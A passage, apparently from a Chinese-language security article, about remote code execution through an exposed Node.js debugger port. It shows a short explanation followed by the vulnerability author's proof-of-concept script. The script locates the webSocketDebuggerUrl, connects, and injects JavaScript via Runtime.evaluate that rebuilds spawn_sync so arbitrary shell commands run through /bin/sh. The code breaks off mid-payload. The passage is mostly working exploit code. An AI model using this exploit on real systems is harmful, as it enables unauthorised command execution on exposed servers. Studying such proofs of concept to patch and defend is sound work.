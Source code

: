 在chrome中直接打开devtoolsFrontendUrl  
指向的链接，就可以得到一个浏览器调试终端，可以在里面执行js指令。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb7ELIvHVBPp1r47Sic1ib5FhqS4wlP41alKr8uWYyaAFmqfd3LLu9XUwibV62OD7XPayqEJbicWgQC3Ow/640?wx_fmt=png "")  
  
**漏洞作者给出的poc如下：**  
```
//poc.js
const fetch = require('node-fetch')
const WebSocket = require('ws')

function die (reason) {
  console.error(reason)
  process.exit(-1)
}

if (process.argv.length !== 5) {
die('usage: node index.js <IP> <PORT> <COMMAND>')
}

const IP = process.argv[2]
const PORT = process.argv[3]
const COMMAND = process.argv[4]
const COMMAND_B64 = base64(COMMAND)

function base64 (data) {
return Buffer.from(data).toString('base64')
}

async function getWsLink () {
const res = await fetch(`http://${IP}:${PORT}/json`)
const data = await res.json()
return data[0].webSocketDebuggerUrl
}

async function main () {
  console.log(`[?] Getting webSocketDebuggerUrl from http://${IP}:${PORT}/json`)
const wsLink = await getWsLink().catch(die)
  console.log(`[!] Found webSocketDebuggerUrl: ${wsLink}`)
const socket = new WebSocket(wsLink)

  socket.onopen = async (event) => {
    console.log(`[?] Connection established to ${wsLink}`)
    socket.send(JSON.stringify({ id: 1, method: 'Runtime.enable' }))
    socket.send(JSON.stringify({
      id: 1,
      method: 'Runtime.evaluate',
      params: {
        expression: `spawn_sync = process.binding('spawn_sync'); normalizeSpawnArguments = function(c,b,a){if(Array.isArray(b)?b=b.slice(0):(a=b,b=[]),a===undefined&&(a={}),a=Object.assign({},a),a.shell){const g=[c].concat(b).join(' ');typeof a.shell==='string'?c=a.shell:c='/bin/sh',b=['-c',g];}typeof a.argv0==='string'?b.unshift(a.argv0):b.unshift(c);var d=a.env||process.env;var e=[];for(var f in d)e.push(f+'='+d[f]);return{file:c,args:b,options:a,envPairs:e};}`
      }
    }))

    socket.send(JSON.stringify({
      id: 2,
      method: 'Runtime.evaluate',
      params: {
```